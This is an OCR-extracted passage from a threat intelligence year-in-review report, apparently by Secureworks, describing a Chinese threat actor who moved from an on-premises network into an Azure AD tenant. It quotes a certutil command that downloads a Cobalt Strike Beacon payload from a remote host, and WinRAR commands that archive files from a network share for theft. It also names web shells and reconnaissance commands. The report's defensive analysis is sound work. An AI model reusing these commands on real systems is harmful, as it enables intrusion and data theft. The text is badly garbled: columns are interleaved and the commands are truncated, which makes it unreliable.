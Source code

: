 web shell and the Godzilla web shell to a second server in the 

environment, and then conducted reconnaissance commands 

such as whoami, hostname, and net group. They then used the 

certutil command to download a Cobalt Strike Beacon payload 

(see figure 21\).

08

Appendix

certutil \-urlcache \-f http:// 7/sv

Figure 21\. Certutil command to download Cobalt Strike Beacon. 
(Source: Secureworks)

server that stores the organization's intellectual property. The 

threat actor used the WinRAR utility to compress files stored 

within this share (see figure 22\).

.svm a \-r .tmp "\\\\ \\" \-hp

Figure 22\. WinRAR commands to archive data from network share. 
(Source: Secureworks)

2023 State of the Threat: A Year in Review

46

01

Letter From Our VP

02

During an incident response engagement that took place in 

This particular intrusion not only reinforces the fundamental 

Fall 2022, CTU researchers observed a Chinese threat actor 

need for network defenders to understand and mitigate risks 

moving from a compromised on\-premises network to the 

based on changing attack surfaces, but also demonstrates the 

02

03

Executive Summary 

and Key Findings

organization's Azure Active Directory (AD) tenant, using 

importance of extensive logging. CTU researchers strongly 

techniques that could only be detected via one specific 

